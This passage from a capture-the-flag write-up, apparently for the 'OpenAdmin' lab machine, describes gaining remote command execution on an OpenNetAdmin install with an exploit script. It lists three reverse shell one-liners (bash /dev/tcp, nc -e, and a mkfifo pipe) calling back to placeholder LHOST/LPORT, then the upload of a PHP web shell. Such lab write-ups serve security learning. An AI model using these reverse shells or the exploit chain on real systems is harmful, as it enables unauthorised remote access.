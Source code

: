 ### Basic Exploit Analysis

*Analyzing the exploit,* it looks like a bash script given the shebang `#!/bin/bash`.

it takes a `url` as the argument and reads a command from the user to include it in the request.

*since it doesn't look malicious,* we run it and give it the url of the application `http://10.10.10.171/ona/` as an argument

`./exploit.sh http://10.10.10.171/ona/`

and we get command execution!

![RCE](/assets/OpenAdmin/RCE.jpg)

### Trying to get a real shell

we try to get a full-fledged shell using the standard reverse shell payloads:
1. `bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1`
2. `nc -nv <LHOST> <LPORT> -e /bin/bash`
3. `rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh -i < /tmp/pipe 2>&1 | nc <LHOST> <LPORT> > /tmp/pipe; rm /tmp/pipe`

but no dice :/

we decide to upload a **php reverse shell** instead using the one in `/usr/share/webshells`

![upload-rev](/assets/OpenAdmin/upload-rev.jpg)

the reverse shell connects back when we visit `http://10.10.10.171/ona/revvy.php` and we're good to go :D

![rev-connect-1](/assets/OpenAdmin/rev-connect-1.jpg)
